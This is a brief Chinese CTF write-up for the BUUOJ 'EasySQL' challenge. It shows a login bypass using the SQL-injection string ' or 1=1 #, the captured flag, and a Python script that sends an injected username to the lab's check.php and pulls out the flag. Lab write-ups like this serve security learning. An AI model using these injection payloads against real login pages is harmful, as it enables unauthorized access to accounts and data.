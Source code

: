 # 分析

来自[[极客大挑战2019]EasySQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]EasySQL)

发现是一个登录页面，试一下万能密码`' or 1=1 #'`，可以直接绕过

![image-20240624203939339](image/image-20240624203939339.png)

拿到`flag{89ab3118-b79b-4754-9e6d-f571c1716a05}`

![image-20240624204212653](image/image-20240624204212653.png)

# exp

```python
import requests
import re

# 目标URL基础部分
url = "http://26c79033-5c5c-4540-9318-9ef298c68228.node5.buuoj.cn:81/check.php"
# 构造带有SQL注入的查询参数
kw = {
    'username': "'or 1=1-- +",
    'password': "123"
}
# 发送GET请求
res = requests.get(url, params=kw)
# 检查响应状态码
if res.status_code == 200:
    # 读取响应内容
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = r"flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

